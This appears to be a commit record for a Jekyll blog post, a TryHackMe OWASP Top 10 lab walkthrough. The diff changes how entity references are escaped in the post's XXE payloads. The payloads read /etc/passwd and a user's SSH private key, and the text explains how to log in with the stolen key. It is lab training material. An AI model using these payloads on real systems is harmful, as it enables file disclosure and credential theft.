

Before and after one commit to 4n3i5v74/4n3i5v74.github.io, a Jekyll site: the page built from _posts/2021-02-10-tryhackme-owasp-top-10.md, in a window 1280 px wide and 1400 px high, scrolled down 6381 px. Shown: the part 227-1176 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Modified

```diff
--- a/_posts/2021-02-10-tryhackme-owasp-top-10.md
+++ b/_posts/2021-02-10-tryhackme-owasp-top-10.md
@@ -198,11 +198,11 @@ Use `firefox` to load url `http://<ip>` and try the below payloads.
 {% capture code %}<!DOCTYPE replace [<!ENTITY name "feast"> ]>
   <userInfo>
     <firstName>falcon</firstName>
-    <lastName>&name;</lastName>
+    <lastName>&#038;name;</lastName>
   </userInfo>{% endcapture %} {% include code.html code=code%}
 
 {% capture code %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
-<root>&read;</root>{% endcapture %} {% include code.html code=code%}
+<root>&#038;read;</root>{% endcapture %} {% include code.html code=code%}
 
 The first payload will display `falcon feast` and the second payload will display contents of system file `/etc/passwd`.
 
@@ -213,11 +213,11 @@ Use `firefox` to load the url `http://<ip>`
 
 Use the following payloads to get the contents of `/etc/passwd`.
 {% capture code %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
-<root>&read;</root>{% endcapture %} {% include code.html code=code%}
+<root>&#038;read;</root>{% endcapture %} {% include code.html code=code%}
 
 There is one non-system user. Use the following payload to read the user's rsa private key.
 {% capture code %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/<user>/.ssh/id_rsa'>]>
-<root>&read;</root>{% endcapture %} {% include code.html code=code%}
+<root>&#038;read;</root>{% endcapture %} {% include code.html code=code%}
 
 Copy the contents of payload output to new file. Change the permission of the file to be more stricter, like `chmod 400 <user>_id_rsa` and use `ssh` to login to the machine using downloaded user's ssh private key.
 {% capture code %}{% raw %}ssh -i <user>_id_rsa <user>@<ip>{% endraw %}{% endcapture %} {% include code.html code=code %}
```
